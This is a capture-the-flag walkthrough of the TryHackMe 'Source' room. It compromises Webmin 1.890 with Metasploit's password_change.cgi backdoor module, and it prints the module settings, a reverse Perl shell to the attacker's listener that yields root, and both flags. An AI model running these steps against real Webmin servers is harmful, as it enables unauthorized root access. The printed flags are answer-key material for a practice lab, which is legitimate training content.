

# Source

## Description

Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

# Initial Scan

We start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 10000 webmin

~~~
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Webmin

Let's take a look at the webmin page on port 10000:

As you can see the webmin runs in SSL. We can try to login by gussing the username and password to pass the authentication page but let's not waste our time.

# Exploit

I searched for **"webmin"** in `msfconsole` and found several exploits:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Source]
└─$ msfconsole -q
msf6 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor

Interact with a module by name or index. For example info 5, use 5 or use exploit/linux/http/webmin_backdoor
~~~

Many of them require valid credentials, so I used `webmin_backdoor` exploit, which doesn't need credentials. Let's take a look at the options:

~~~
msf6 > use 5
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_backdoor) > show options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki
                                         /Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                         n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
~~~

Now let's set the required variables and run the exploit:

~~~
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.148.209
RHOSTS => 10.10.148.209
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_backdoor) > set lhost tun0
lhost => 10.9.1.25
msf6 exploit(linux/http/webmin_backdoor) > exploit
~~~

The exploit works, so I spawned a shell using `shell` command:

~~~
[*] Started reverse TCP handler on 10.9.1.25:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.9.1.25:4444 -> 10.10.148.209:53942) at 2021-10-17 04:47:36 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
~~~

## Root Shell

Now we have a root shell:
~~~
root@source:/usr/share/webmin# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

# User Flag

Now we can easily search for the flags. The user flag is in `/home/dark`:
~~~
root@source:/usr/share/webmin/# cd /home/dark
cd /home/dark
root@source:/home/dark# cat user.txt
cat user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
~~~

User flag: `THM{SUPPLY_CHAIN_COMPROMISE}`

# Root Flag

Now we navigate to `/root` and read the root flag;

~~~
root@source:/home/dark# cd /root
cd /root
root@source:~# cat root.txt
cat root.txt
THM{UPDATE_YOUR_INSTALL}
~~~

Root flag: `THM{UPDATE_YOUR_INSTALL}`

# D0N3!  ; )

Thanks to the creator(s)!

Hope you enjoyed this room and have a good one! : )